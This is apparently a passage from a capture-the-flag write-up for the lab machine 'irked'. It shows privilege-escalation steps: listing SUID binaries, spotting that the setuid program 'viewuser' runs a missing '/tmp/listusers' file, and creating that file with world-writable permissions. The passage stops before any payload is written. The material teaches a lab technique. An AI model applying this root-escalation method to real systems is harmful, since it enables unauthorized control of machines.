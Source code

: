 ```
djmardov@irked:/$ find / -perm -u=s -type f 2>/dev/null  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
djmardov@irked:/$ 
```

These are all the suid applications. So applications that run as the owner, not the user.

"/usr/bin/viewuser" catches my eye as a potential target, so I go and take a look.


```
djmardov@irked:/$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-02-06 02:28 (:0)
sh: 1: /tmp/listusers: not found
djmardov@irked:/$ 
```

I do remember from the bash_history, that /tmp was frequently visited. 

And it looks like the binary is reading a file. So let's create the file and see what happens.

```
djmardov@irked:/tmp$ touch listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-02-06 02:28 (:0)
sh: 1: /tmp/listusers: Permission denied
djmardov@irked:/tmp$ chmod 777 listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-02-06 02:28 (:0)
djmardov@irked:/tmp$ 
```
